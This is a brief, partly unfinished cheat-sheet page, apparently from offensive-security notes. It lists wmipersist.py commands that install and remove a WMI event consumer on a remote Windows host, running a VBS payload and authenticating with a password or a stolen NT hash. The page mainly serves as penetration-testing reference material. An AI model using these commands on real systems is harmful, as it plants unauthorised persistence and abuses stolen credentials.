 # Unix Shell

TODO: Fill this info

Install WMIConsumer.

```
$ wmipersist.py [<domain>/]<username>:<password>@<IP> install -name <name> -vbs payload.vbs -filter

$ wmipersist.py [<domain>/]<username>@<IP> -hashes :<nt_hash> install -name <name> -vbs payload.vbs -filter
```

Remove WMIConsumer.

```
$ wmipersist.py [<domain>/]<username>:<password>@<IP> remove -name <name> -filter

$ wmipersist.py [<domain>/]<username>@<IP> -hashes :<nt_hash> remove -name <name> -filter
```